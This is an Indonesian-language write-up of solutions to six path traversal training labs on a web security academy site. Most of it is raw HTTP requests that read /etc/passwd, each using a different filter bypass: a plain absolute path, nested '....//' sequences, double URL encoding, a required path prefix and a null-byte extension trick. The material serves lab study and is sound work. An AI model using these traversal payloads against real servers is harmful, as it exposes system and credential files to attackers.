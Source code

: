 
## Apa itu penjelajahan jalur?

Penjelajahan jalur juga dikenal sebagai penjelajahan direktori. Kerentanan ini memungkinkan penyerang membaca file sembarangan di server yang menjalankan aplikasi. Ini mungkin termasuk:

- Kode dan data aplikasi.
- Kredensial untuk sistem back-end.
- File sistem operasi sensitif.

Dalam beberapa kasus, penyerang mungkin dapat menulis ke file sembarang di server, memungkinkan mereka mengubah data atau perilaku aplikasi, dan pada akhirnya mengambil kendali penuh atas server.


**Solve lab 1:**

- saya menggunakan tool automation punya saya


**Solve lab 2:**

```json
GET /image?filename=/etc/passwd HTTP/2
Host: 0a6900f403201ac18005999f0036002a.web-security-academy.net
Cookie: session=NwbRdFGi0Og4SrFoDv9RsdK7mIIDrjma
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

**Solve lab 3:**

```json
GET /image?filename=....//....//....//....//etc/passwd HTTP/2
Host: 0aec00e70358ade280139e0300a70068.web-security-academy.net
Cookie: session=nITEmfarmC1HDI44BOjop1TtczQKKjcJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i
Te: trailers
Connection: close
```

**Solve lab 4:**

```json
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/2
Host: 0a2e002404dbf1eb83b0b54700650006.web-security-academy.net
Cookie: session=ufozwZhqEuiLSzLRdIvTT5GI6qi7PeVB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2e002404dbf1eb83b0b54700650006.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

**Solve lab 5:**

```json
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0acd00380383ecd084b53b39001600c5.web-security-academy.net
Cookie: session=bMZat53I0DWwL3pzcSHuY8idTQdOQ2rx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```


**Solve lab 6:**

```json
GET /image?filename=../../../etc/passwd%00.png HTTP/2
Host: 0abb006503b8bdcd802ed572005f00ff.web-security-academy.net
Cookie: session=piNKJKgHzni3BJDwSlMYhoZNxrIZvMRB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abb006503b8bdcd802ed572005f00ff.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

